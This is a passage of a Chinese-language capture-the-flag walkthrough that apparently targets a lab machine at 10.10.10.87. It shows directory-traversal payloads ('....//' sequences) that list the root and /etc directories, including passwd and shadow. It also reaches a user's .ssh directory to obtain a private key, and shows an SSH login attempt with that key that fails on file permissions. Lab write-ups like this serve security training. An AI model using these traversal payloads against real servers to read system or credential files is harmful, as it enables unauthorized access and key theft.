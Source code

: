 ```
------------
path=....//....//....//
[".","..",".dockerenv","bin","dev","etc","home","lib","media","mnt","proc","root","run","sbin","srv","sys","tmp","usr","var"]
-------------
path=....//....//....//etc
[".","..","TZ","alpine-release","apk","ca-certificates","ca-certificates.conf","conf.d","crontabs","default","environment","fstab","group","group-","hostname","hosts","init.d","inittab","issue","localtime","login.defs","logrotate.d","modprobe.d","modules","modules-load.d","motd","mtab","network","nginx","opt","os-release","pam.d","passwd","passwd-","periodic","php7","profile","profile.d","protocols","resolv.conf","securetty","security","services","shadow","shadow-","shells","ssh","ssl","supervisor","supervisord.conf","sysctl.conf","sysctl.d","terminfo","udhcpd.conf","vim"]

```
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-21/8.PNG)

---

本来想直接列user.txt，但可能有权限问题，提示false。
```
path=....//....//....//....//home/nobody/
[".","..",".ash_history",".ssh",".viminfo","user.txt"]
```
file=....//....//....//....//home/nobody/.ssh/authorized_keys
ssh密钥文件

---
## 获得shell

```
ssh nobody@10.10.10.87 -i id_rsa
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "id_rsa": bad permissions
Permission denied (publickey).
```
遇到一个错误。
